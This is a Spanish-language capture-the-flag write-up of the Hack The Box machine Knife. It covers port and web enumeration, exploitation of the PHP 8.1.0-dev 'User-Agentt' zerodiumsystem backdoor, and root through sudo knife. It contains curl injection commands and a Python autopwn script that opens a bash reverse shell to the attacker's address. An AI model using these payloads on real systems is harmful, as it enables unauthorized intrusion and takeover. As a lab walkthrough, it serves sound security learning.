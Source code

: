 ```yaml
---
layout: post
title: HTB_Active
date: 2023/07/10
---
```


# Knife {-}

## Introduccion {-}

La maquina del dia se llama Knife.

El replay del live se puede ver aqui

[![S4vitaar Knife maquina](https://img.youtube.com/vi/Um6-iIYzUWk/0.jpg)](https://www.youtube.com/watch?v=Um6-iIYzUWk)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.242
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.242
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,80 10.10.10.242 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta? |
| ------ | -------- | ------------------ | ---------- |
| 22     | tcp      | Conneccion directa | creds      |
| 80     | tcp      | Web, Fuzzing       |            |

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.242
```

Es un Apache 2.4.41 en un Ubuntu Con una version 8.1.0-dev de PHP. 


#### Checkear la web {-}

Si entramos en la url `http://10.10.10.242`, No vemos gran cosas tenemos que aplicar Fuzzing.

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.242/FUZZ
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,txt-php http://10.10.10.242/FUZZ.FUZ2Z
```

Tampoco encontramos gran cosa por aqui.

#### Analyzamos las cabezeras de la respuesta al lado del servidor {-}

```bash
curl -s -X GET http://10.10.10.242 -I
```

No vemos nada. Miramos por la version de php que parece un poco rara.


## Vulnerability Assessment {-}


### php 4.1.0-dev {-}

Si buscamos en google pro `PHP 8.1.0 exploit` vemos una pagina que habla de User-Agent Remote Code Execution.

La vulnerabilidad aqui reside en poner un User-Agentt con 2 T con un zerodiumsystem command.

```bash
"User-Agent": "Mozilla/5...."
"User-Agentt": "zerodiumsystem('" + COMMANDO + "');"
```

Lo intentamos

```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('whoami');"
#Output 
james
...

curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" head -n 1
```
## Vuln exploit & Gaining Access {-}

### Ganando accesso con un Autopwn en Pyton {-}

```python
#!/usr/bin/python3

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.242/"
lport = 443

def makeRequest():

    headers = {
        'User-Agentt': 'zerodiumsystem("bash -c \'bash -i >& /dev/tcp/10.10.14.15/443 0>&1\'");'
    }

    r = requests.get(main_url, headers=headers)

if __name__ == '__main__':

    p1 = log.progress("Pwn Web")
    p1.status("Explotando vulnerabilidad PHP 8.1.0-dev - User Agentt Remote Code Execution")

    time.sleep(2)

    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        p1.failure("No ha sido posible comprometer el sistema")
        sys.exit(1)
    else:
        p1.success("Comando inyectado exitosamente")
        shell.sendline("sudo knife exec -E 'exec \"/bin/sh\"'")
        shell.interactive()
```

Lo lanzamos con el commando `python3 autopwn.py`

```bash
whoami
#Output
james

hostname -I
#Output
10.10.10.242
```

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
```

Podemos ejecutar el commando `/usr/bin/knife` como el usuario root sin proporcionar contraseña.

buscando por [gtfobins](https://gtfobins.github.io/gtfobins/knife/#sudo), vemos que podemos usar este
commando para ejecutar una shell.

```bash
sudo knife exec -E 'exec "/bin/bash"'
whoami
#Output 
root
```

Ya podemos leer la flag root.txt
